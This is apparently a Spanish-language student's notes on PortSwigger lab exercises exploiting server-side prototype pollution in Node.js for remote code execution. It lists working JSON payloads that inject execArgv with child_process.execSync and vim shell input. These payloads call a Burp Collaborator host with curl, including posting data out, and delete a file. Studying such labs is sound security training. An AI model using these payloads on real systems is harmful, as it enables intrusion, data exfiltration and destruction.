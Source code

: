 ![[Pasted image 20250219202437.png]]

### LAB: RCE via server-side prototype pollution

* Podemos tirar un Json spaces y luego el proto para el RCE, pero luego de insertarlo tenemos que limpiar la DB Cleanup para que se pueda ver reflejado, así que si hay algo de "**job mantenance** sabemos muy bien que puede ir por este tipo de ataque, o el de abajo Level Expert"

```js
//SE PUEDE VER IDENTIFICADO EL SPACE GENERADO CON EL JSON SPACES.
"__proto__":{
		"json spaces":10
	}

//PAYLOAD FINAL -> y EJM De COLLABORATOR Para corroborar el RCE
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
},

//BORRAR EL ARCHIVO MORALE.TXT
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
},

```

### LAB: RCE Exfiltrating sensitive data via server-side prototype pollution `Level:Expert`

Analicemos esta request que actualicé el `prueba Colombia hp!`

![[Pasted image 20250219204639.png]]

Puedo inyectar propiedad arbitrarias para el objecto prototipo global, vemos reflejado el foo:bar

Tiremos el comando de vim, de la doc de portswigger:

```jsx
"shell":"vim",
"input":":! <command>\\n"
```

![[Pasted image 20250219204706.png]]

```jsx
"__proto__":{
	"shell":"vim",
	"input":":! curl BURP-COLLABORATOR.com\\n"
}, //no me tiro resultados, se vió reflejado en el response pero en el collaborator no me llegó nada.

"constructor":{
	"prototype":{
		"shell":"vim",
		"input":"! curl -d @- BURP-COLLABORATOR\\n"	
	}
},
```
